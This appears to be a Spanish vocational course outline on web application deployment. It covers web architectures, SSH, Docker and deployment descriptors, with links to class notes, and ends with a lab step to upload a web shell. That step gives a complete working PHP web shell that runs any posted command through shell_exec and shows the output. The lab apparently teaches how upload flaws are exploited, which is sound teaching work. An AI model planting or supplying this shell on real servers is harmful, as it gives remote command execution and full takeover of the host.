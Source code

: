 # Módulo profesional 09: Despliegue de aplicaciones web (código: 0614)
## Contenidos (duración 85 horas)

- Implantación de arquitecturas web
- Administración de servidores web
- Administración de servidores de aplicaciones
- Instalación y administración de servidores de transferencia de archivos
- Servicios de red implicados en el despliegue de una aplicación web
- Documentación y sistemas de control de versiones

# Introducción a DAW

- Trabajos posibles para proyecto fin de ciclo
- ¿De qué va la asignatura?
- ¿Cómo voy a evaluar la asignatura?
- Se puede utilizar cualquier lenguaje
- Mezcla de tecnologías

# Implantación de arquitecturas web:
- Arquitecturas web. Modelos.
  - Simular arquitectura cliente-servidor
    - https://github.com/jesusninoc/ClasesIAW/blob/master/2020-09-18.md#presentaci%C3%B3n-de-conceptos-b%C3%A1sicos-sobre-aplicaciones-web
    - https://github.com/jesusninoc/ClasesIAW/blob/master/2020-09-23.md#ejercicios
    - https://github.com/jesusninoc/ClasesIAW/blob/master/2020-09-25.md#crear-un-servidor-web-con-una-p%C3%A1gina-web-que-contenga-usuarios-y-acciones
    - https://github.com/jesusninoc/ClasesIAW/blob/master/2020-09-30.md#instalaci%C3%B3n
    - https://stackoverflow.com/questions/3732109/simple-http-server-in-java-using-only-java-se-api
  - Simular protocolo inteligente
    - https://github.com/jesusninoc/ClasesIAW/blob/master/2020-09-21.md#ejemplos-sobre-el-protocolo-http
  - Simular arquitectura de varios niveles (dos niveles y tres niveles)
    - https://github.com/jesusninoc/ClasesIAW/blob/master/2020-09-23.md#ejercicio-que-simula-una-arquitectura-de-tres-niveles-descargar-precios-de-una-web-y-mostrarlos-en-un-servidor-web-creado-en-tiempo-real
  - Código en tiempo real
    - https://www.jesusninoc.com/07/18/mostrar-y-generar-en-tiempo-real-una-tabla-html-con-el-valor-nutricional-azucares-de-todos-los-fabricantes-de-un-producto-encontrado-en-la-tienda-online-de-un-supermercado-en-powershell/
- Servidores web. Instalación y configuración básica.
  - Conexión SSH y SCP.
- Servidores de aplicaciones. Contenedores. Instalación y configuración básica.
  - Docker.
- Estructura y recursos que componen una aplicación web. Descriptor de despliegue.
  - El descriptor del despligue indica cómo desplegar una aplicación.

--------------------
--------------------

# Implantación de arquitecturas web:
- Servidores web. Instalación y configuración básica.
  - Conexión SSH y SCP
- Servidores de aplicaciones. Contenedores. Instalación y configuración básica.
  - Docker
    - https://github.com/jesusninoc/ClasesISO/blob/master/2018-11-29.md
- Estructura y recursos que componen una aplicación web. Descriptor de despliegue.

-----------------

# Instalar Apache y PHP (comprobar que se ha instalado con un fichero phpinfo())

# Crear fichero upload

# Subir una Webshell

# Webshell
```PHP
<?php
if (!empty($_POST['cmd'])) {
    $cmd = shell_exec($_POST['cmd']);
}
?>
<!DOCTYPE html>
<html lang="en">
<!-- By Artyum (https://github.com/artyuum) -->
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Web Shell</title>
    <style>
        * {
            -webkit-box-sizing: border-box;
            box-sizing: border-box;
        }

        body {
            font-family: sans-serif;
            color: rgba(0, 0, 0, .75);
        }

        main {
            margin: auto;
            max-width: 850px;
        }

        pre,
        input,
        button {
            border-radius: 5px;
        }

        pre,
        input,
        button {
            background-color: #efefef;
        }

        label {
            display: block;
        }

        input {
            width: 100%;
            background-color: #efefef;
            border: 2px solid transparent;
        }

        input:focus {
            outline: none;
            background: transparent;
            border: 2px solid #e6e6e6;
        }

        button {
            border: none;
            cursor: pointer;
            margin-left: 5px;
        }

        button:hover {
            background-color: #e6e6e6;
        }

        pre,
        input,
        button {
            padding: 10px;
        }

        .form-group {
            display: -webkit-box;
            display: -ms-flexbox;
            display: flex;
            padding: 15px 0;
        }
    </style>

</head>

<body>
    <main>
        <h1>Web Shell</h1>
        <h2>Execute a command</h2>

        <form method="post">
            <label for="cmd"><strong>Command</strong></label>
            <div class="form-group">
                <input type="text" name="cmd" id="cmd" value="<?= htmlspecialchars($_POST['cmd'], ENT_QUOTES, 'UTF-8') ?>"
                       onfocus="this.setSelectionRange(this.value.length, this.value.length);" autofocus required>
                <button type="submit">Execute</button>
            </div>
        </form>

        <?php if ($_SERVER['REQUEST_METHOD'] === 'POST'): ?>
            <h2>Output</h2>
            <?php if (isset($cmd)): ?>
                <pre><?= htmlspecialchars($cmd, ENT_QUOTES, 'UTF-8') ?></pre>
            <?php else: ?>
                <pre><small>No result.</small></pre>
            <?php endif; ?>
        <?php endif; ?>
    </main>
</body>
</html>
```
